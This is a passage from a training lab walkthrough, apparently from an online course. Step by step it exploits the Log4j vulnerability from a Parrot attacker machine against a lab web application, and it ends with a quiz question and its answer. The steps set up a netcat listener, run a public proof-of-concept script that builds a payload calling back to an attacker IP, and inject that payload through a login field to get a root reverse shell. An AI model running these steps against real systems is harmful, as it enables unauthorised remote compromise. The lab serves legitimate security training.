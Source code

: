 	16. A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.
	17. In the [sudo] password for attacker field, type toor as a password and press Enter.
The password that you type will not be visible.
	
	18. Type cd log4j-shell-poc and press Enter, to enter into log4j-shell-poc directory.
	
	19. Now, we needed to install JDK 8, to do that open a new terminal window and type sudo su and press Enter to run the programs as a root user.
	20. In the [sudo] password for attacker field, type toor as a password and press Enter.
	
	21. We need to extract JDK zip file which is already placed at /home/attacker location.
	22. Type tar -xf jdk-8u202-linux-x64.tar.gz and press Enter, to extract the file.
-xf: specifies extract all files.
	
	23. Now we will move the jdk1.8.0_202 into /usr/bin/. To do that, type mv jdk1.8.0_202 /usr/bin/ and press Enter.
	
	24. Now, we need to update the installed JDK path in the poc.py file.
	25. Navigate to the previous terminal window. In the terminal, type pluma poc.py and press Enter to open poc.py file.
	
	26. In the poc.py file scroll down and in line 62, replace jdk1.8.0_20/bin/javac with /usr/bin/jdk1.8.0_202/bin/javac.
	
	27. Scroll down to line 87 and replace jdk1.8.0_20/bin/java with /usr/bin/jdk1.8.0_202/bin/java.
	
	28. Scroll down to line 99 and replace jdk1.8.0_20/bin/java with /usr/bin/jdk1.8.0_202/bin/java.
	
	29. After making all the changes save the changes and close the poc.py editor window.
	30. Now, open a new terminal window and type nc -lvp 9001 and press Enter, to initiate a netcat listener as shown in screenshot.
	
	31. Switch to previous terminal window and type python3 poc.py --userip 10.10.1.13 --webport 8000 --lport 9001 and press Enter, to start the exploitation and create payload.
	
	32. Now, copy the payload generated in the send me: section.
	
	33. Switch to Firefox browser window, in Username field paste the payload that was copied in previous step and in Password field type password and press Login button as shown in the screenshot.
In the Password field you can enter any password.
	
	34. Now switch to the netcat listener, you can see that a reverse shell is opened.
	
	35. In the listener window type pwd and press Enter, to view the present working directory.
	
	36. Now, type whoami and press Enter.
	
	37. We can see that we have shell access to the target web application as a root user.
	38. The Log4j vulnerability takes the payload as input and processes it, as a result we will obtain a reverse shell.
	39. This concludes the demonstration of how to gain backdoor access exploiting Log4j vulnerability.
	40. Close all open windows and document all acquired information.
Question 14.2.9.1
Gain backdoor access by exploiting Log4j vulnerability on an application installed in Ubuntu machine. What is the port number on which the netcat listener was setup in Parrot Security machine in this task?
9001 
- 

From <https://labclient.labondemand.com/Instructions/60b75171-6e9c-4f5a-892c-216fd94a3167> 

PreviousNext

From <https://labclient.labondemand.com/Instructions/4ce15517-c2e2-466d-9b44-72deec0e5960> 


![image](https://github.com/user-attachments/assets/fecd24f8-49b5-4995-a3e0-a2a9192a1095)
